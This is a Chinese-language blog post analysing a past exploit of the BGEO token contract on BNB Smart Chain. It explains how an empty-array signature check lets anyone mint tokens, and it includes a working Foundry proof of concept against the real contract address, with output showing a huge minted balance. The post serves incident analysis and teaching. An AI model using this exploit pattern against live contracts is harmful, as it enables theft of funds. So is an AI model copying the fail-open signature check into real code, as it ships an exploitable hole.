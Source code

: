 ```yaml
---
title: "Binance BGEO Attack Analysis"
date: 2023-04-28T08:43:45+08:00
draft: false
author: yinhui
categories: [security]
tags: [defi] 
---
```


参数检查不严格的锅

<!--more-->

## 漏洞分析

攻击发生在https://bscscan.com/tx/0x9f4ef3cc55b016ea6b867807a09f80d1b2e36f6cd6fccfaf0182f46060332c57

被攻击合约: [0xc342774492b54ce5F8ac662113ED702Fc1b34972](https://bscscan.com/address/0xc342774492b54ce5F8ac662113ED702Fc1b34972#code)

合约的`mint`定义如下:

```solidity
    function mint(
        uint256 _amount,
        string memory _txHash,
        address _receiver,
        bytes32[] memory _r,
        bytes32[] memory _s,
        uint8[] memory _v
    ) external isSigned(_txHash, _amount, _r, _s, _v) returns (bool) {
        require(!txHashes[_txHash], "tx-hash-used");
        txHashes[_txHash] = true;

        _mint(_receiver, _amount);
        return true;
    }
```

其中的`_mint()`如下:

```solidity
    function _mint(address account, uint256 amount) internal {
        require(account != address(0), "BEP20: mint to the zero address");

        _totalSupply = _totalSupply.add(amount);
        _balances[account] = _balances[account].add(amount);
        emit Transfer(address(0), account, amount);
    }

```

在`mint()`函数执行了2个检查, 通过检查便可调用`_mint()`增加msg.sender的余额

1. 检查1: 

   ```solidity
   require(!txHashes[_txHash], "tx-hash-used");
           txHashes[_txHash] = true;
   ```

   检查传入的_txHash是否被使用过, 避免同一个__txHash被使用多次.

2. 检查2:

   ```solidity
   isSigned(_txHash, _amount, _r, _s, _v)
   ```

   这是一个modifier, 用于检查 \_txHash和\_amout传入参数是否被正确签名:

   ```solidity
       modifier isSigned(
           string memory _txHash,
           uint256 _amount,
           bytes32[] memory _r,
           bytes32[] memory _s,
           uint8[] memory _v
       ) {
           require(checkSignParams(_r, _s, _v), "bad-sign-params");
           bytes32 _hash = keccak256(
               abi.encodePacked(bsc, msg.sender, _txHash, _amount)
           );
           address[] memory _signers = new address[](_r.length);
           for (uint8 i = 0; i < _r.length; i++) {
               _signers[i] = ecrecover(_hash, _v[i], _r[i], _s[i]);
           }
   
           require(isSigners(_signers), "bad-signers");
           _;
       }
       
      function isSigners(address[] memory _signers) public view returns (bool) {
           for (uint8 i = 0; i < _signers.length; i++) {
               if (!_containsSigner(_signers[i])) {
                   return false;
               }
           }
           return true;
       }
       function checkSignParams(
           bytes32[] memory _r,
           bytes32[] memory _s,
           uint8[] memory _v
       ) private view returns (bool) {
           return (_r.length == _s.length) && (_s.length == _v.length);
       }
   ```

   从上面的代码可以看出, 验证签名的逻辑如下:
   对于参数\_txHash和\_amount, 有一组椭圆曲线签名对应的(r, s, v), 通过`ecrecover`函数恢复出签名者的公钥(地址), 并检查签名地址是否包含在预定于的合法签名者列表中(可以理解为白名单)

   可以将代码简化为:

   ```python
   def isSigned(message, r[],s[],v[]){
   		allSigners = recovery_signer_addresses_from_r_s_v_array();
   		for (s in allSigners){
   			if (s not in whiteList){
   				return false;
   			}
   		}
   		return true
   }
   ```

   这里有两个问题需要注意: 一是默认返回不应该为true, 而应该默认返回false.  二是没有注意数组可能为空, 但数组长度为0时, 代码直接返回true了, 这就绕过了`isSigned`

   ```solidity
      function isSigners(address[] memory _signers) public view returns (bool) {
           // 问题出在这里： 传入的数组为空时，长度为0， 直接返回true了
           for (uint8 i = 0; i < _signers.length; i++) {
               if (!_containsSigner(_signers[i])) {
                   return false;
               }
           }
           return true;
       }
   ```

   



## POC

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.10;

import "forge-std/Test.sol";

interface IBGEO20 {
    function balanceOf(address account) external view returns (uint256);

    function decimals() external view returns (uint8);

    function mint(
        uint256 _amount,
        string memory _txHash,
        address _receiver,
        bytes32[] memory _r,
        bytes32[] memory _s,
        uint8[] memory _v
    ) external returns (bool);
}


IBGEO20 constant BGEO = IBGEO20(0xc342774492b54ce5F8ac662113ED702Fc1b34972);

contract Hack is Test {
    function setUp() public {
        vm.createSelectFork("theNet", 22315679); //BSC
    }

    function testPoc() public {
        BGEO.mint(
            99999999999999999 * 10 ** 18,
            "abcdefg",
            address(this),
            new bytes32[](0),
            new bytes32[](0),
            new uint8[](0)
        );

        emit log_named_decimal_uint(
            "BGEO i have",
            BGEO.balanceOf(address(this)),
            BGEO.decimals()
        );
    }
}

```

输出:

```
[PASS] testPoc() (gas: 64559)
Logs:
  BGEO i have: 99999999999999999.000000000000000000
```

​     

